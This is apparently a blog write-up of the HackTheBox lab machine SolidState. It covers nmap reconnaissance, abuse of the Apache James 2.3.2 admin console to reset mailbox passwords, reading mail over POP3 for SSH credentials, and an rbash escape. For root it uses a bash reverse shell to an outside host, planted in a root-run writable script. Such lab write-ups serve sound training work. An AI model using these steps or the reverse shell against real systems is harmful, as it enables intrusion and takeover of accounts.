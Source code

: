 ```yaml
---
title: "SolidState - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## SolidState
![](https://kar0nx.github.io/assets/images/writeup/cfb87d43d2b47380fd0f3a3efb6a47ed.png)
## Reconnaissance

IP: 10.10.10.51
## NMAP

```
nmap -T4 -p- -A 10.10.10.51
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 08:33 UTC
Nmap scan report for 10.10.10.51
Host is up (0.031s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.8 [10.10.14.8])
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4
Network Distance: 2 hops
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   29.41 ms 10.10.14.1
2   30.06 ms 10.10.10.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.66 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830103732.png)

I can't spot anything usefull on site so I switched searching for mail service

## Apache James Server 2.3.2

JAMES smtpd 2.3.2. I found article:
https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830104529.png)

so lets try this

```
telnet 10.10.10.51 4555
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830104552.png)

I change all users passwords to root to faster enumeration:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830104841.png)

Now let's check their mailboxes via POP3 (port 110). While login with mindy credentials I found juicy email with username and password for ssh login

```
telnet 10.10.10.51 110
USER mindy
PASS root
LIST
RETR 1
RETR 2
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830105546.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830105524.png)

Now let's login via ssh with mindy: P@55W0rd1!2@
Restricted bash :/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830105808.png)

### Escaping Restricted Bash (rBash)

Via ssh it is great to start with -t bash which execute bash on connect

```
ssh mindy@10.10.10.51 -t bash
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830111453.png)

## Privilege escalation

I run linpeas and found 2 good places to start localport on 631 and python script with 777 own by root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830114706.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830114616.png)

First I added revshell to script

```
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')
```

And that was quick :) I got reverse shell as root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830115121.png)

Now we can grab root.txt

If we want confirm that root run this process every few minutes we can run pspy

```
./pspy32
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250830124711.png)